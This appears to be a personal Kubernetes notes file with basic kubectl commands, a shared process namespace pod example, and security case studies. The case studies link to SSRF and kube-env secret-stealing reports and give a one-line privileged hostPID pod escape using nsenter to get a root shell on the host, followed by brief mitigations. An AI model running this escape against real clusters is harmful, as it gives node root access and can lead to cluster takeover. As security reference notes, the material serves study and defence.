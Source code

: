 # lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0

kubectl run -i --tty --image busybox foo --restart=Never --rm
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# case studies

### kube-env leaked via ssrf

- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Shopify’s $25k Bug Report, and the Cluster Takeover That Didn’t\.\.\. \- Greg Castle &amp; Shane Lawrence \- YouTube](https://www.youtube.com/watch?v=2XCm7vveU5A)
- [GitHub \- bgeesaman/kube\-env\-stealer: Automated GKE Kubelet Impersonation and Cluster Secret Stealer via kube\-env](https://github.com/bgeesaman/kube-env-stealer)

### root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet
